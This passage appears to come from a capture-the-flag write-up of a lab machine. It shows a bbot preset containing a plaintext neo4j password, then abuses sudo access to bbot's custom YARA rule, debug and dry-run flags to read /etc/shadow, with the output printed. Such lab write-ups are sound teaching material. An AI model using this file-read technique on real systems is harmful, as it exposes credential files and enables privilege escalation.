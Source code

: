 ```
graphasm@cypher:~$ ls -la
total 36
drwxr-xr-x 4 graphasm graphasm 4096 Feb 17 12:40 .
drwxr-xr-x 3 root     root     4096 Oct  8 17:58 ..
lrwxrwxrwx 1 root     root        9 Oct  8 18:06 .bash_history -> /dev/null
-rw-r--r-- 1 graphasm graphasm  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 graphasm graphasm 3771 Mar 31  2024 .bashrc
-rw-r--r-- 1 graphasm graphasm  156 Feb 14 12:35 bbot_preset.yml
drwx------ 2 graphasm graphasm 4096 Oct  8 17:58 .cache
-rw-r--r-- 1 graphasm graphasm  807 Mar 31  2024 .profile
drwx------ 2 graphasm graphasm 4096 Oct  8 17:58 .ssh
-rw-r----- 1 root     graphasm   33 Mar  1 20:37 user.txt
```

Looking around we find out that [bbot](https://github.com/blacklanternsecurity/bbot) is an OSINT tool.

Let's look at our preset:

```
graphasm@cypher:~$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

Nothing very interesting, looking at the `help` for the binary we can see a few interesting options:
- `-cy` : custom YARA rules, can take file input
- `-d` : debug mode, increases verbosity
- `--dry-run`: exit before doing any actual scans

Using these three flags we have an arbitrary file read by specifying the file we want to read as the custom YARA rule:

```
sudo bbot -cy /etc/shadow -d --dry-run                               

<SNIP>
[DBUG] internal.excavate: Final combined yara rule contents:
root:[REDACTED]
daemon:*:19962:0:99999:7:::
bin:*:19962:0:99999:7:::
sys:*:19962:0:99999:7:::
sync:*:19962:0:99999:7:::
games:*:19962:0:99999:7:::
man:*:19962:0:99999:7:::
lp:*:19962:0:99999:7:::
mail:*:19962:0:99999:7:::
news:*:19962:0:99999:7:::
uucp:*:19962:0:99999:7:::
proxy:*:19962:0:99999:7:::
www-data:*:19962:0:99999:7:::
backup:*:19962:0:99999:7:::
list:*:19962:0:99999:7:::
irc:*:19962:0:99999:7:::
_apt:*:19962:0:99999:7:::
nobody:*:19962:0:99999:7:::
systemd-network:!*:19962::::::
```